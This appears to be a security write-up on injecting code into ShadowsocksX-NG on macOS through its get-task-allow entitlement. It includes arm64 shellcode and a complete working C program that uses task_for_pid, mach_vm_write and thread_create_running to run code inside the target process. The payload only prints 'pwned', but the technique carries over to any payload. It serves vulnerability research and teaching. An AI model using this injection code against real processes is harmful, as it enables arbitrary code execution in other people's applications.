

# Introduction

Recently, I started playing a bit with different methods of code injection inside the MacOS applications. 
The version of  [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG/releases/tag/v1.10.1) prior to `v1.10.1` has `com.apple.security.get-task-allow` entitlement.

This entitlement allows other processes to obtain the applications task. Obtaining the task means you can do with the process everything you want(code execution, memory read/write etc).

At the end of this post, we will be exploiting this to write `pwned` text to the STDOUT of the application. Nothing fancy about it, just demonstrates the  usage of mach API and a bit of shellcoding for arm64.

We will utilize mach vm API with the `thread_create_running` to execute our shellcode on macOS Ventura running on M1 using arm64 architecture.

# Analysis

Application [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG) is MacOS client for the original shadowsocks. Shadowsocks is a tool that helps to circumvent firewalls.

To view the entitlements, we can use `codesign -dv --entitlements :- /path/to/the/binary`

```bash
$ codesign -d --entitlements :- /Applications/ShadowsocksX-NG.app/Contents/MacOS/ShadowsocksX-NG 2> /dev/null | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>com.apple.security.get-task-allow</key>
    <true/>
  </dict>
</plist>
```

We can see that the application has only entitlement, and it is `com.apple.security.get-task-allow`. 

# Mach VM API

We will utilize mach vm api to exploit the entitlement:  
* `task_for_pid` - to obtain the task for the process id of ShadowsocksX-NG  
* `mach_vm_allocate` - to allocate the space inside the process  
* `mach_vm_write` - to write our shellcode inside the allocated space  
* `vm_protect` - to enable executing allocated space
* `thread_create_running` - to run our shellcode inside the process space in a new thread

The exploitation steps are:

1. obtain the pid
2. try to get applications task
3. allocate space for the shellcode
4. allocate space for the stack
5. write shellcode
6. give execute permission at the shellcode address
7. create new thread
8. execute thread

```nasm
.global _main
.align 4

_main:
        mov x0, #1

        mov x4, #0x7770                         ; write wp
        movk x4, #0x656e, lsl #16       ; write en
        movk x4, #0x0a64, lsl #32       ; write \nd
        str x4, [sp, #-8]
        mov x5, #8
        sub x1, sp, x5  

        mov x2, #6 ; length
        mov x16, #0x4
        svc #0x80

        mov x0, #6 ; exit status call
        mov x16, #1
        svc #0xffff
```

Full exploit source code:  
```c
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <ptrauth.h>

#define STACK_SIZE 65536
#define CODE_SIZE 124

extern kern_return_t mach_vm_allocate(task_t task, mach_vm_address_t *addr, mach_vm_size_t size, int flags);
extern kern_return_t mach_vm_read(vm_map_t target_task, mach_vm_address_t address, mach_vm_size_t size, vm_offset_t *data, mach_msg_type_number_t *dataCnt);
extern kern_return_t mach_vm_write(vm_map_t target_task, mach_vm_address_t address, vm_offset_t data, mach_msg_type_number_t dataCnt);

char shellCode[] = "\x20\x00\x80\xd2\x04\xee\x8e\xd2\xc4\xad\xac\xf2\x84\x4c\xc1\xf2\xe4\x83\x1f\xf8\x05\x01\x80\xd2\xe1\x63\x25\xcb\xc2\x00\x80\xd2\x90\x00\x80\xd2\x01\x10\x00\xd4\xc0\x00\x80\xd2\x30\x00\x80\xd2\xe1\xff\x1f\xd4\x01\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x02\x00\x00\x00\x80\x3f\x00\x00\x34\x00\x00\x00\x34\x00\x00\x00\xb5\x3f\x00\x00\x00\x00\x00\x00\x34\x00\x00\x00\x03\x00\x00\x00\x0c\x00\x01\x00\x10\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00";

pid_t getShadowPID() {
    NSString * appPID = @"com.qiuyuzhou.ShadowsocksX-NG";
    NSArray<NSRunningApplication *> *runningShadowsocks = [NSRunningApplication runningApplicationsWithBundleIdentifier:appPID];
    
    if (runningShadowsocks == nil || [runningShadowsocks count] == 0) {
        printf("[!] Exploit failed!\n");
        exit(-1);
    }
    
    NSRunningApplication *ShadowsocksX_NG = runningShadowsocks[0];
    pid_t shadowPID = [ShadowsocksX_NG processIdentifier];
    
    return shadowPID;
}

int main(int argc, const char * argv[]) {
    pid_t shadowPID = getShadowPID();
    
    task_t remoteTask;
    kern_return_t kr = task_for_pid(current_task(), shadowPID, &remoteTask);
    
    if (kr != KERN_SUCCESS) {
        printf("[!] Failed to get ShadowsocksX-NG's task: %s\n", mach_error_string(kr));
        exit(-2);
    } else {
        printf("[+] ShadowsocksX-NG's task successfully taken over: %d\n", remoteTask);
    }

    mach_vm_address_t remoteStack = (vm_address_t)NULL;
    mach_vm_address_t remoteCode = (vm_address_t)NULL;

    kr = mach_vm_allocate(remoteTask, &remoteStack, STACK_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated stack at: 0x%llx\n", remoteStack);
    }

    kr = mach_vm_allocate(remoteTask, &remoteCode, CODE_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated code at: 0x%llx\n", remoteCode);
    }

    kr = mach_vm_write(remoteTask, remoteCode, (vm_address_t)shellCode,CODE_SIZE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to write code: %s\n", mach_error_string(kr));
    } else {
        printf("written code at: 0x%llx\n", remoteCode);
    }

    kr  = vm_protect(remoteTask, remoteCode, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

    remoteStack += (STACK_SIZE / 2);

    task_flavor_t flavor = ARM_THREAD_STATE64;
    mach_msg_type_number_t count = ARM_THREAD_STATE64_COUNT;

    arm_thread_state64_t state;

    state.__pc = (uintptr_t)remoteCode;
    state.__sp = (uintptr_t)remoteStack;

    thread_act_t thread;
    kr = thread_create_running(remoteTask, flavor, (thread_state_t)&state, count, &thread);

    if (kr != KERN_SUCCESS) {
        printf("error spawning thread: %s\n", mach_error_string(kr));
    } else {
        printf("done\n");
    }

    return 0;
}
```

